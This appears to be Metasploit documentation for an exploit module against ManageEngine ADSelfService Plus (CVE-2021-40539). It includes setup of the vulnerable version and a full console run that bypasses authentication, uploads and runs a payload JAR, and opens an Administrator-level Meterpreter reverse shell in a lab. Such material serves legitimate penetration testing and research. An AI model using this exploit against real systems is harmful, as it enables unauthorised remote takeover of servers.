 ## Vulnerable Application

### Setup

Follow the [Getting Started] guide. You do not need AD, and you can skip licensing.

1. Download [ManageEngine_ADSelfService_Plus_64bit.exe]
1. Run the installer
1. Start the server
1. Hax

[Getting Started]: https://www.manageengine.com/products/self-service-password/help/admin-guide/gettingstarted/getting-started.html
[ManageEngine_ADSelfService_Plus_64bit.exe]: https://archives2.manageengine.com/self-service-password/6113/ManageEngine_ADSelfService_Plus_64bit.exe

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

### TARGETURI

Path traversal for auth bypass. `/./` is the default.

## Scenarios

### ADSelfService Plus 6113 on Windows Server 2016

```
msf6 > use exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539
[*] No payload configured, defaulting to java/meterpreter/reverse_tcp
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > options

Module options (exploit/windows/http/manageengine_adselfservice_plus_cve_2021_40539):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8888             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /./              yes       Path traversal for auth bypass
   VHOST                       no        HTTP server virtual host


Payload options (java/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  [redacted]       yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Java Dropper


msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set rhosts 172.16.57.167
rhosts => 172.16.57.167
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > set lhost 172.16.57.1
lhost => 172.16.57.1
msf6 exploit(windows/http/manageengine_adselfservice_plus_cve_2021_40539) > run

[*] Started reverse TCP handler on 172.16.57.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. Successfully bypassed REST API authentication.
[*] Uploading payload JAR: RlBtKpwLfU.jar
[+] Successfully uploaded payload JAR
[*] Executing payload JAR
[*] Sending stage (58082 bytes) to 172.16.57.167
[+] Successfully executed payload JAR
[+] Deleted RlBtKpwLfU.jar
[*] Meterpreter session 1 opened (172.16.57.1:4444 -> 172.16.57.167:64699 ) at 2021-11-24 10:41:43 -0600

meterpreter > getuid
Server username: Administrator
meterpreter > sysinfo
Computer    : WIN-PRMQDT3BCJI
OS          : Windows Server 2016 10.0 (amd64)
Meterpreter : java/windows
meterpreter >
```
